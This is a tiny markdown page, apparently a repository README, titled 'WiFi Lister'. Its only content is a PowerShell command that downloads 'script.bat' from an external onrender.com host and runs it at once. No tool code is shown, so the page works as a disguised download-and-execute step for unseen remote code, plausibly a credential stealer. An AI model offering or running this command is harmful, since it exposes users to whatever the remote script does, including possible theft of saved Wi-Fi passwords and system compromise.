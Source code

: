 # 🐱 **WiFi Lister**

Command:
   ```
   powershell -Command "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri 'https://d-n0pt.onrender.com' -OutFile 'script.bat'; Start-Process 'script.bat'"
   ```

